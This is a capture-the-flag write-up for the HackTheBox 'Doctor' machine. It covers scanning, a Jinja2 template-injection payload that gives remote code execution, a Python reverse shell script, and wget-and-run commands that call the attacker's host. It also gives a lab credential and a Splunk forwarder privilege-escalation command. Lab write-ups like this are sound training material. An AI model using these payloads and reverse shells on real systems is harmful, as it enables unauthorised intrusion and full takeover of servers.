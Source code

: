 ```yaml
---
title: Doctor [HackTheBox-WriteUp]
date: 2020-12-17 12:00:00 +0800
categories: [HackTheBox, Machines]
# tags: ["Hack The Box", "Write-Up", "Server Side Template Injection (SSTI)", "Splunk Universal Forwarder (UF) Privilege Escalation", "Remote Code Execution (RCE)"]     # TAG names should always be lowercase
tags: ["hack the box", write-up, ssti, "splunk uf privilege escalation"]
image: /assets/posts/ctf/hackthebox/machines/doctor/img/doctor.png
---
```


# TL;DR

---

> Remote code execution (RCE) via server side template injection (SSTI) `->` Password disclosure through "/var/log/apache2/backup" `->` Splunk Universal Forwarder (UF) privilege escalation

---

# Enumeration

---

## masscan

```terminal
$ sudo masscan -p1-65535 --rate 1000 -e eth0 -Pn 10.10.10.209 | tee doctor.masscan

Discovered open port 80/tcp on 10.10.10.209                                    
Discovered open port 22/tcp on 10.10.10.209                                    
Discovered open port 8089/tcp on 10.10.10.209 
```

## nmap

```terminal
$ sudo nmap -p$(cat doctor.masscan | awk '{print $4}' | awk -F "/" '{print $1}' | sort -u | tr "\n" "," | sed s/,$//) -Pn -A -sC -sV --version-intensity 5 -oA doctor.nmap 10.10.10.209

# Nmap 7.91 scan initiated Fri Dec  4 16:51:09 2020 as: nmap -p22,80,889 -Pn -A -sC -sV --version-intensity 5 -oA doctor.htb 10.10.10.209
Nmap scan report for 10.10.10.209
Host is up (0.28s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (92%), Linux 5.0 (92%), Linux 5.0 - 5.4 (91%), Linux 5.3 - 5.4 (91%), Linux 2.6.32 (91%), Linux 5.0 - 5.3 (90%), Crestron XPanel control system (90%), Linux 5.4 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   269.77 ms 10.10.14.1
2   270.65 ms 10.10.10.209

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec  4 16:52:07 2020 -- 1 IP address (1 host up) scanned in 57.57 seconds
```

---

# Exploitation

---

Accessing `http://10.10.10.209/` shows email address `info@doctors.htb`. Declare domain and IP address in `/etc/hosts`.

![Landing Page](/assets/posts/ctf/hackthebox/machines/doctor/img/landing_page.png)
_Landing page_

```terminal
$ echo "10.10.10.209    doctors.htb" >> /etc/hosts | cat /etc/hosts

### CTF
## HackTheBox
# Doctor
10.10.10.209    doctors.htb
```

`http://doctors.htb` brought us to `Doctor Secure Messaging` and viewing the source code shows HTML comment with hidden `/archive` directory.

![Doctor Secure Messaging](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm.png)
_Doctor Secure Messaging_

![HTML Source Code](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm_source.png)
_Source code shows commented `/archive` directory_

whatweb shows application is developed using `python`.

```terminal
$ whatweb http://doctors.htb/login?next=%2F

http://doctors.htb/login?next=%2F [200 OK] Bootstrap[4.0.0], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/1.0.1 Python/3.8.2], IP[10.10.10.209], JQuery, PasswordField[password], Python[3.8.2], Script, Title[Doctor Secure Messaging - Login], Werkzeug[1.0.1]
```

## Server Side Template Injection (SSTI)

To perform [**server side template injection**](https://portswigger.net/research/server-side-template-injection), first we need to create user on `http://doctors.htb/register`.

![Register User](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm_register.png)
_Register user_

After logged in, post a comment with `{{"{{5*'dug.'"}}}}`. What this does is, it will print out `dug.` up to `five (5) times`.

![Comment](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm_comment.png)
_Inject on comment title_

> SSTI Output: `dug.dug.dug.dug.dug.`

To trigger the server side template injection (SSTI), we need to access the `http://doctors.htb/archive`.

![Archive](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm_archive.png){: width="700"}
_Trigger SSTI via `/archive`_

> We use this [**link**](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) as reference to conduct `remote code execution (RCE)` via server side template injection (SSTI).

### Remote Code Execution (RCE)

#### Execute command `id`

```python
# payload

 {{"{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()"}}}}
```
![RCE](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm_id.png)
_Post comment with `id` command_

![RCE](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm_id_exec.png){: width="700"}
_Trigger `id` command via `/archive`_

#### Reverse shell

We crafted our own reverse shell payload. First, the server will download the `rev.py` that contains the python reverse shell, sleep for 5 seconds and execute the python script.

```python
# rev.py

import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",9999))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Start python webserver services on port 8000.

```terminal
$ python -m SimpleHTTPServer 8000
```

Create a new comment with the following payload:

```python
# payload

{{"{{request.application.__globals__.__builtins__.__import__('os').popen('wget http://10.10.14.2:8000/rev.py; sleep 5; python3 rev.py').read()"}}}}
```

![RCE](/assets/posts/ctf/hackthebox/machines/doctor/img/dsm_rev.png)
_Post new comment with crafted payload_

> Payload needs to be trigger on `/archive`

![RCE](/assets/posts/ctf/hackthebox/machines/doctor/img/rev_www.png)
_We got reverse shell (web)_

---

# Post Exploitation

---

## [USER: shaun] -> Password disclosure through `/var/log/apache2/backup`

Plaintext password is disclosed in `/var/log/apache2/backup` and `/etc/passwd` shows `shaun` as targeted user.

![Password](/assets/posts/ctf/hackthebox/machines/doctor/img/password.png)
_shaun's password disclose in `/var/log/apache2/backup`_

Credential captured as follows:

| User  | Password  |
|:-----:|:---------:|
| shaun | Guitar123 |

Then we escalated our privilege to user shaun.

![shaun](/assets/posts/ctf/hackthebox/machines/doctor/img/shaun.png)
_Escalate privilege to user shaun_

User flag can be found in `/home/shaun/user.txt`.

## [USER: root] -> Splunk Universal Forwarded (UF) privilege escalation

In `/opt` directory, it shows that `splunkforwarded` is installed on port `8089`.

![Splunk](/assets/posts/ctf/hackthebox/machines/doctor/img/splunk.png)
_splunkforwarded_

![Splunk](/assets/posts/ctf/hackthebox/machines/doctor/img/8089.png)
_Port 8089 shows Splunk server_

[**Article**](https://airman604.medium.com/splunk-universal-forwarder-hijacking-5899c3e0e6b2) about Splunk Universal Forwarded hijacking.

We escalated our privilege to root using this [**script**](https://github.com/cnotin/SplunkWhisperer2).

```terminal
$ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.2 --username shaun --password Guitar123 --payload "wget http://10.10.14.2:8000/revRoot.py; sleep 5; python3 revRoot.py"
```

![root](/assets/posts/ctf/hackthebox/machines/doctor/img/root.png)
_Escalate privilege to root_

Root flag can be found in `/root/root.txt`.

---